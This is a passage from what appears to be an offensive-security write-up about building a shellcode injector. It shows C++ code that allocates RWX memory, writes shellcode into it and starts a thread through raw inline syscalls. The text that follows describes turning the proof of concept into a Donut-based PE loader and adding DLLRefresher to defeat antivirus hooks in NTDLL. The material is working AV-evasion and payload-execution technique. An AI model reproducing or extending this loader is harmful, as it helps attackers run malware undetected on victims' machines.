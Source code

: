 ```cpp
        (HANDLE)-1,
        &allocation,
        0,
        &size,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );

    if (status || !allocation) {
        return -1;
    }

    status = INLINE_SYSCALL(NtWriteVirtualMemory)(
        (HANDLE)-1,
        allocation,
        shellcode,
        size,
        &bytesWritten);

    if (status) {
        return -1;
    }

    status = INLINE_SYSCALL(NtCreateThreadEx)(
        &hThread,
        THREAD_ALL_ACCESS,
        nullptr,
        (HANDLE)-1,
        allocation,
        allocation,
        0,
        0,
        0,
        0,
        nullptr);

    if (status) {
        return -1;
    }

    status = INLINE_SYSCALL(NtWaitForSingleObject)(hThread, TRUE, NULL);
    
    if (status) {
        return -1;
    }

    return 0;
}
```

Now that we are able to execute arbitrary shellcode via raw syscalls, we will upgrade our PoC to a full blown PE loader by integrating the amazing [Donut](https://github.com/TheWover/donut) project in order to convert executables, DLLs, .NET assemblies et cetera into shellcode and execute that via raw syscalls.
Anyway, by trying our current, simple injector on different AV products, we notice some crashes with specific solutions: in particular, if the AV modifies the in-memory NTDLL by injecting some code at the process creation, we are not able anymore to scrape correctly the module to retrieve the syscalls numbers. In order to solve this problem, we will integrate another project called [DLLRefresher](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher).
